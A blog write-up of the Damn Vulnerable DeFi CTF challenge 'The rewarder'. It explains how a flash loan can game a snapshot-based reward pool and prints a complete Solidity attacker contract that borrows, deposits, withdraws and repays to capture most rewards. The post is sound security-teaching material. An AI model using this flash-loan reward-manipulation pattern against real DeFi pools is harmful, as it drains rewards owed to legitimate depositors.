 ```yaml
---
title: 'Damn Vulnerable DeFi Challenge #5 Solution — The rewarder'
excerpt: 'Damn Vulnerable DeFi is the war game created by @tinchoabbate to learn offensive security of DeFi smart contracts.</br></br>You don’t have any DVT tokens. But in the upcoming round, you must claim most rewards for yourself.'
coverImage:
  url: '/assets/blog/ethereum.jpg'
  credit:
    name: Nenad Novaković
    url: https://unsplash.com/@dvlden
date: '2022-04-18T07:00:00.000Z'
author:
  name: Emanuele Ricci
  twitter: StErMi
  picture: '/assets/blog/authors/stermi.jpeg'
ogImage:
  url: '/assets/blog/ethereum.jpg'
---
```


This is Part 5 of the ["Let’s play Damn Vulnerable DeFi CTF"](https://stermi.xyz/blog/lets-play-damn-vulnerable-defi) series, where I will explain how to solve each challenge.

> [Damn Vulnerable DeFi](https://www.damnvulnerabledefi.xyz/index.html) is the war game created by [@tinchoabbate](https://twitter.com/tinchoabbate) to learn offensive security of DeFi smart contracts.
> Throughout numerous challenges, you will build the skills to become a bug hunter or security auditor in the space.

## Challenge #5  —  The rewarder

> There’s a pool offering rewards in tokens every 5 days for those who deposit their DVT tokens into it.
>
> Alice, Bob, Charlie and David have already deposited some DVT tokens, and have won their rewards!
>
> You don’t have any DVT tokens. But in the upcoming round, you must claim most rewards for yourself.
>
> Oh, by the way, rumours say a new pool has just landed on mainnet. Isn’t it offering DVT tokens in flash loans?

- [See contracts](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v2.0.0/contracts/the-rewarder)
- [Hack it](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/test/the-rewarder/the-rewarder.challenge.js)

## The attacker end goal

We start with zero DVT token, and the end goal of this challenge is to steal all the Pool’s reward, or at least most of them. To do that as the challenge description suggest we have to leverage the lending pool that offer flashloans without fee.

## Study the contracts

### `FlashLoanerPool.sol`

This is the Lending pool contract, nothing wrong here. It offers a flashloan function called `flashLoan`. It’s a pretty standard function where you specify the amount, it checks to have enough token before sending them to you, execute `receiveFlashLoan(uint256)` on the `msg.sender` and then check that the sender has repaid the loan.

### `RewardToken.sol`

This is the Reward ERC20 contract. Also here nothing special, when it’s created it set up a couple of roles and only the minter role can mint tokens toward an account. Both the Admin and Minter are the `msg.sender` that created the contract.

### `AccountingToken.sol`

Is an ERC20 contract that inherit from [OpenZeppelin’s ERC20Snapshot](https://docs.openzeppelin.com/contracts/4.x/api/token/erc20#ERC20Snapshot). Directly from the OZ documentation:

> This contract extends an ERC20 token with a snapshot mechanism. When a snapshot is created, the balances and total supply at the time are recorded for later access.

> This can be used to safely create mechanisms based on token balances such as trustless dividends or weighted voting. In naive implementations it’s possible to perform a “double spend” attack by reusing the same balance from different accounts. By using snapshots to calculate dividends or voting power, those attacks no longer apply. It can also be used to create an efficient ERC20 forking mechanism.

So basically, `AccountingToken` contract allows the `TheRewarderPool` contract to manage the amount of DVT token that have been deposited/withdrawn and the snapshot logic.

### `TheRewarderPool.sol`

This is the main contract we are interested into. Let’s dive into it and see what’s going on function by function:

`function deposit(uint256 amountToDeposit) external`

- check if the amount is > 0
- mint the `AccountingToken` 1:1 with `DVT`
- call `distributeRewards`
- `transfer` from `msg.sender` to this the deposited amount of DVT tokens and check the transfer result

`function withdraw(uint256 amountToWithdraw) external`

- burn the amount from `AccountingToken` (it’s an ERC20 contract, so it will fail if the `msg.sender` has not enough balance deposited)
- transfer back the withdrawn DVT to `msg.sender` checking the result of the operation

`function isNewRewardsRound() public view returns (bool)`

The logic here is pretty simple: `return block.timestamp >= lastRecordedSnapshotTimestamp + REWARDS_ROUND_MIN_DURATION;`

It checks if from the last reward distribution time (`lastRecordedSnapshotTimestamp`) registered by `_recordSnapshot()` has at least passed `REWARDS_ROUND_MIN_DURATION` (5 days). Basically, it’s a new round if from the previous distribution **has passed at least 5 days**.

`function distributeRewards() public returns (uint256)`

- Check if it’s a new reward round calling `isNewRewardsRound()` (has passed 5 days). If so, call `_recordSnapshot()`
- Get the total amount of DVT token deposited in the pool on the last snapshot
- Get the amount of DVT token deposited by the user on the pool
- Calculate the amount of reward token to be rewarded to the user based on the percentage of contribution `rewards = (amountDeposited * 100 * 10 ** 18) / totalDeposits;`
- If he gets some rewards and those rewards are not yet distributed to the user, the contract mint those rewards and send them to the `msg.sender`

Ok, now we have a good understanding of the scenario. For the next round, we need to have enough token deposited in the pool to get the vast majority of the rewards. The pool is not checking for how long we have deposited our tokens to distribute a fair amount of token, so we just need to have them deposited for the time had to get the rewards.

## Solution code

First we have to create a new Contract because as you can see, only a contract can execute and receive the flash loans.

This temporary contract will:

- Wait for the amount of time needed to start a new round and be able to make the Rewarder Pool trigger the `_recordSnapshot` at deposit time
- Check the amount of DVT token we can borrow with a flashloan from the Flashloan Pool
- Flashloan the max amount (we are not paying any fees)
- Deposit all the DVT token we just loaned. The `deposit` function will trigger `distributeRewards` function that will take a snapshot before distributing tokens to our account. Because we are the bigger staker in the pool, we are going to get the vast majority of reward tokens.
- Withdraw all the deposited DVT from the pool. We don’t need them anymore because we already got all the rewards needed, and we also need to repay back the loan!
- Repay back the loan to the Lending Pool
- Transfer all the rewards to the attacker

Here’s the code of the Attacker’s contract explained in the section above.

```solidity
// Do not use this code
// Part of the https://www.damnvulnerabledefi.xyz/ challenge

contract Executor {

    FlashLoanerPool flashLoanPool;
    TheRewarderPool rewarderPool;
    DamnValuableToken liquidityToken;
    RewardToken rewardToken;

    address owner;

    constructor(DamnValuableToken _liquidityToken, FlashLoanerPool _flashLoanPool, TheRewarderPool _rewarderPool, RewardToken _rewardToken) {
        owner = msg.sender;
        liquidityToken = _liquidityToken;
        flashLoanPool = _flashLoanPool;
        rewarderPool = _rewarderPool;
        rewardToken = _rewardToken;
    }

    function receiveFlashLoan(uint256 borrowAmount) external {
        require(msg.sender == address(flashLoanPool), "only pool");

        liquidityToken.approve(address(rewarderPool), borrowAmount);

        // theorically depositing DVT call already distribute reward if the next round has already started
        rewarderPool.deposit(borrowAmount);

        // we can now withdraw everything
        rewarderPool.withdraw(borrowAmount);

        // we send back the borrowed tocken
        bool payedBorrow = liquidityToken.transfer(address(flashLoanPool), borrowAmount);
        require(payedBorrow, "Borrow not payed back");

        // we transfer the rewarded RewardToken to the contract's owner
        uint256 rewardBalance = rewardToken.balanceOf(address(this));
        bool rewardSent = rewardToken.transfer(owner, rewardBalance);

        require(rewardSent, "Reward not sent back to the contract's owner");
    }

    function attack() external {
        require(msg.sender == owner, "only owner");

        uint256 dvtPoolBalance = liquidityToken.balanceOf(address(flashLoanPool));
        flashLoanPool.flashLoan(dvtPoolBalance);
    }
}
```

You can find the full solution on GitHub, looking at [TheRewarderTest.t.sol](https://github.com/StErMi/forge-damn-vulnerable-defi/blob/main/src/test/the-rewarder/TheRewarderTest.t.sol)

If you want to try yourself locally, just execute `forge test --match-contract TheRewarderTest -vv`

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

DO NOT USE IN PRODUCTION
